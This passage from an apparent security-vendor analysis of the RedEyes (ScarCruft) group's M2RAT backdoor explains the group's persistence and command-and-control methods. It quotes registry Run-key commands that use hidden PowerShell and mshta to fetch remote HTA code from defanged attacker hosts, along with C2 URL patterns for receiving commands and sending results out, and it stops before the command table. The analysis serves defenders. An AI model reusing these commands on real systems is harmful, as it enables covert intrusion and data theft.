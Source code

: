 
Figure 8. Stage 2: Execution of the decrypted PE file (Backdoor download and ensuring persistence)
The command registered to the registry Run key was found to be similar to that of the ScarCruft (RedEyes) group report published by Kaspersky in 2021.
[ScarCruft’s registry Run key command in 2021 (by Kaspersky)]

c:\windows\system32\cmd.exe /c PowerShell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass ping -n 1 -w 300000 2.2.2.2 || mshta hxxp://[redacted].cafe24[.]com/bbs/probook/1.html

[RedEyes (ScarCruft) registry Run key command in 2023]

c:\windows\system32\cmd.exe /c PowerShell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass ping -n 1 -w 340328 2.2.2.2 || mshta hxxps://www.*******elearning.or[.]kr/popup/handle/1.html

Whenever the affected host PC is booted up, the registry key causes Powershell and the normal Windows utility, mshta, to also be executed. At the time of analysis, an HTA (HTML Application) file containing a JS (JavaScript) code was collected from the “1.html” file that mshta had downloaded from the threat actor’s server.
The JS code is responsible for executing the Powershell command, which receives and executes commands from the threat actor’s server, and returns the results.
When the Powershell adds a “U” parameter to the threat actor’s server address when transmitting the computer name and username, the threat actor’s server encodes the CMD command that is going to be executed in BASE64 before sending it to the affected host. The encoded BASE64 command is then decoded by Powershell and executed. The result of the command is saved as a file in the %temp%\vnGhazwFiPgQ path. Afterward, an “R” parameter is added to the threat actor’s server which then encodes the command execution result in BASE64 before sending it.

hxxps://www.*******elearning.or[.]kr/popup/handle/log.php?U=[Computer Name]+[Username] // Receive the threat actor’s command
hxxps://www.*******elearning.or[.]kr/popup/handle/log.php?R=[BASE64-encoded] // Send command execution result


Figure 9. Persistence-related Powershell code
2.4. M2RAT (Map2RAT)
The ultimately executed backdoor operates after being injected into explorer.exe. The main features of this backdoor are similar to those of basic remote control malware, which include keylogging, data leakage (files and recordings), running or terminating processes, and capturing screenshots.

Figure 10. Stage 3: Execution of M2RAT backdoor
However, the recently discovered backdoor has a different command system compared to the previously identified Chinotto malware. It does not save the keylogging data or screenshot logs in the affected system but instead sends them to the threat actor’s server, leaving no traces of the stolen data in the affected system.
The ASEC analysis team named this newly identified malware M2RAT (Map2RAT) after the common name within the shared memory section used during C&C communication.

FileInputMap2
ProcessInputMap2
CaptureInputMap2
RawInputMap2
RegistryModuleInputMap2
TypingRecordInputMap2
UsbCheckingInputMap2

2.4.1. Command and Control of M2RAT
M2RAT’s C&C communications command system involves receiving commands from the threat actor’s server through the POST method’s Body. The meaning of these command can be found in the below Table 1.
